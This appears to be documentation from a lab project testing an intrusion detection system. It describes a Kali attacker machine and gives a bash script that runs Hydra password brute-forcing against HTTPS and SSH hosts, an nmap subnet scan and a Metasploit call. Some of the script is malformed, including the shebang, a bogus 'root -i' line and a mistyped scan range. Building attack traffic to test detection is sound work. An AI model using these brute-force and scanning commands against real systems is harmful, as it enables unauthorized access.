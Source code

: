 Attacker Machines
====
We chose to have two machines acting as attackers on our network, one external and a internal compromised Windows host.

Kali Outside Attacker Machine
----
We chose to use Kali Linux as our external attacker machine, Kali was chosen due to its existing robust catalouge of hacking tools.
We chose to use the following to simulate an attack: 

- NMAP (Scanning Ports)
- HYDRA (Brute Force Password)
- WMAP / Metasploit (Scanning DVWA)

I wrote a custom script to automate most of this process.
.. code-block:: console

    #/bin/bash
    root -i
    echo "======================================"
    cowsay Moooo!
    echo "Proj: IDS"
    echo "Purpose: Test IDS Rules and Logging with a variety of attacks"
    echo "#################################"
    hydra -L name -P a 10.180.110.253 https-head /admin/dm-launcher.msi -v -I
    hydra -L name -P a 10.180.110.250 ssh -t 4
    echo "DONE: Hydra on Admin ASDM Download to find privlaged users"
    echo "#############################"
    ssh user1@10.180.110.253 'exit'
    echo "DONE: Sample remote ssh via attempted brute force"
    echo "###########################"
    #cowsay Hackermode
    sudo nmap -v  110.180.110.0/24
    msfconsole 'load'
    echo "DONE: WEB APP EXPLOITS"
    #cowsay MOO!
    echo "==================================="
    eof




   
